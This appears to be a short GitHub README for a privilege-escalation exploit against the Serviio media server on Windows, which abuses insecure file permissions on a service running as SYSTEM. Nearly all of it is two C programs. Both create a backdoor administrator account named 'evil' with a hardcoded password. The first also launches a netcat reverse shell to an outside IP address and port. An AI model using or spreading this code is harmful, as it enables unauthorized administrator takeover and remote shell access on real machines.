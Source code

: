 # ServiioService_PrivEsc
privilege escalation for Serviio running insecure file permissions on services that run as nt authority\system


#include <stdlib.h>

int main ()
{
	int i;
    i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
    i = system ("cd C:\\Tools\\practical_tools ");
	i = system ("nc.exe 192.168.119.199 4444 -e cmd.exe");

	return 0;
}

# ServiioService_PrivEsc - Second example 

#include <stdlib.h>
int main ()
{
	int i;
    i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
	return 0;
}

